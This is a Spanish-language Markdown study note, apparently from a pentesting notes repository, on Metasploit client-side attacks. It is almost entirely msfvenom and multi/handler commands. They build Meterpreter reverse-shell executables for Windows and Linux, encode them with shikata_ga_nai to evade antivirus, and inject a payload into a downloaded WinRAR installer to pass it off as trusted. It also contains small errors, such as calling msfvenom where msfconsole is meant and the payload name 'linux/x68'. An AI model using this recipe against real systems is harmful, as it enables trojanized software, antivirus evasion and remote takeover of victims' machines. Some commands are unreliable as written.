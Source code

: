 # Ataques del lado del cliente con Metasploit 

Tags: #Metasploit #Msfvenom #Encode #Payloads #Shellcode #AntiVirus #InjectPayloads

* Client-Side Attacks: Es un vector de ataque hace que un cliente ejecute un payload malicioso en su sistema que consecuentemente hará una conexión trasera con un atacante cuando sea ejecutado. Utiliza documentos o archivos ejecutables. 

## Msfvenom

Msfconsole: Es una utilidad de línea de comando que puede ser usada para generar y encodear payloads MSF para varios sistemas operativos, así, como servidores web. Es la combinación de dos utilidades: Msfpayload y Msfencode. Podemos utilizar Msfvenom para generar payloads maliciosos en Meterpreter que pueden ser transferidos al sistema del cliente. Una vez ejecutados, harán una conexión a nuestro payload handler y nos proveerá un acceso remoto al sistema target.  

### Para Windows 

```bash 
1. Debemos crear el Msfvenom en nuestra maquina Linux 

❯ msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f exe > /home/kali/Desktop/payloadx86.exe

	# LHOST = IP de atacante 
	# LHOST = Puerto de atacante 
	# p = Payload
	# a = Arquitectura x64, x86
	# f = Formato de salida y la ruta en donde nos lo creara (exe, war, etc...)

❯ msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f exe > /home/kali/Desktop/payloadx64.exe
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Windows 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ rlwrap nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload windows/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```

### Para Linux 

```bash 
1. Debemos crear el Msfvenom en nuestra maquina Linux 

❯ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f elf > ~/Desktop/payloadx86

	# LHOST = IP de atacante 
	# LHOST = Puerto de atacante 
	# p = Payload
	# a = Arquitectura x64, x86
	# f = Formato de salida y la ruta en donde nos lo creara (elf, exe, war, etc...) y podemos o no agregarle la extension 

❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f elf > ~/Desktop/payloadx64
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Linux 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload linux/x68/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```


---

## Encodear Payload con MSF

* Se utiliza el encodeamiento de los payload ya que los atacantes después de transferir y almacenar los payloads maliciosos en los discos duros de los clientes, los atacantes necesitan estar consientes de la detección de los Antivirus (AV).  Los usuarios finales de soluciones de AV utilizan detección basada en orden para identificar archivos o ejecutables maliciosos. Podemos evadir los AV encodeando nuestros payloads. Encodear es un proceso de modificar el Shellcode del payload con el objetivo de modificar la firma del payload. 

* Shellcode: Es una pieza de código típicamente usada como un payload para explotación. 

```bash 
❯ msfvenom --list encoders               # Lista de encoders
```

### Para Windows 

```bash 
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -e x86/shikata_ga_nai -f exe > /home/kali/Desktop/encodex86.exe
	# e = Nombre del encoder 


❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -i 10 -e x86/shikata_ga_nai -f exe > /home/kali/Desktop/encodex86.exe

	# e = Nombre del encoder 
	# i = Iteraciones 
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Windows 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ rlwrap nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload windows/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```

### Para Linux 

```bash 
❯ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -i 10 -e x86/shikata_ga_nai -f elf > /home/kali/Desktop/encodex86

	# e = Nombre del encoder 
	# i = Iteraciones 
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Linux 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload linux/x68/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```


---

## Inyectar Payload dentro de ejecutables portables de Windows 

```bash 
1. Debemos descargar un archivo ejecutable de Google (WinRAR = wrar6.exe)
```

```bash 
# Creamos el payload y se lo pasamos a un archivo ejecutable 'confiable'
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -x ~/Downloads/wrar6.exe > ~/Desktop/Winrar.exe

	# x = Especificar el archivo ejecutable para usar como plantilla
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Windows 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ rlwrap nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload windows/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```
